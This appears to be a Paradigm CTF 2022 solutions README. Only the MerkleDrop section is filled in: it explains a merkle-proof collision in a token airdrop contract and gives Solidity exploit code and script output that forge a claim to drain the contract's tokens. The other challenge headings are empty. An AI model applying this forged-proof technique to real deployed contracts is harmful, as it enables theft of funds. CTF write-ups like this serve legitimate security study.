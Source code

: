 # Paradigm CTF 2022

Some challenges are slightly modified to run locally. Using [forge](https://github.com/foundry-rs/foundry) to run scripts.

```bash
forge script script/Random.s.sol
```

**Table of Contents**
- [RANDOM](#random)
- [MERKLEDROP](#merkledrop)
- [RESCUE](#rescue)
- [SOURCECODE](#sourcecode)
- [VANITY](#vanity)
- [HINTFINANCE](#hintfinance)

## Random

simple task. The meme comes from https://youtu.be/LP1t_pzxKyE?t=251

## MerkleDrop

This task requires you to claim all tokens from a merkle airdrop contract without claiming all the valid indic.

```solidity
function claim(uint256 index, address account, uint96 amount, bytes32[] memory merkleProof) external {
    require(!isClaimed(index), 'MerkleDistributor: Drop already claimed.');
    
    // Verify the merkle proof.
    bytes32 node = keccak256(abi.encodePacked(index, account, amount));
    require(MerkleProof.verify(merkleProof, merkleRoot, node), 'MerkleDistributor: Invalid proof.');
    
    // Mark it claimed and send the token.
    _setClaimed(index);
    require(ERC20Like(token).transfer(account, amount), 'MerkleDistributor: Transfer failed.');
    
    emit Claimed(index, account, amount);
}
```

`claim` from `MerkleDistributor`. `amount` is using type `uint96`, the payload for `claim` happens to be
256+160+96=512. This fits two leafs for the merkle proof. We can use the first two from any intermediate state when constructing the merkle proof.

Example of claiming index 0 with intermediate state.

```solidity
function tryIndex0() public {
    bytes32[] memory proofs = new bytes32[](6);
    proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a;
    proofs[1] = 0x0ae01ec0f7a50774e0c1ad35f0f5efcc14c376f675704a6212b483bfbf742a69;
    proofs[2] = 0x3f267b524a6acda73b1d3e54777f40b188c66a14a090cd142a7ec48b13422298;
    proofs[3] = 0xe2eae0dabf8d82b313729f55298625b7ac9ba0f12e408529bae4a2ce405e7d5f;
    proofs[4] = 0x01cf774c22de70195c31bde82dc3ec94807e4e4e01a42aca6d5adccafe09510e;
    proofs[5] = 0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5;
    dist.claim(0, 0x00E21E550021Af51258060A0E18148e36607C9df, 0x09906894166afcc878, proofs);

    // claim(uint256 index, address account, uint96 amount, bytes32[] proofs)
    bytes32 node = keccak256(abi.encodePacked(uint256(0), address(0x00E21E550021Af51258060A0E18148e36607C9df), uint96(0x09906894166afcc878)));
    emit log_named_bytes32("node", node);
    // node      = 0xa9e8f0fbf0d2911d746500a7786606d3fc80abb68a05f77fb730ded04a951c2d
    // proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a
    bytes32[] memory fakeProofs = new bytes32[](5);
    fakeProofs[0] = proofs[1];
    fakeProofs[1] = proofs[2];
    fakeProofs[2] = proofs[3];
    fakeProofs[3] = proofs[4];
    fakeProofs[4] = proofs[5];
    dist.claim(0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a, 0xa9e8F0FBF0d2911d746500A7786606d3fC80abb6, uint96(0x8a05f77fb730ded04a951c2d), fakeProofs);
}
```

We created a simple [script](src/MerkleDrop/findVictim.js) to test every index of the tree. Only two indices is within the valid range.

```
total: 75000
index:19, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
index:37, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
....
index: 8, amount: 2966
....
```

Using index 8 and fake 19/37 will empty the 75000 tokens.



## Rescue

## SourceCode

## Vanity

## HintFinance


  
  
  
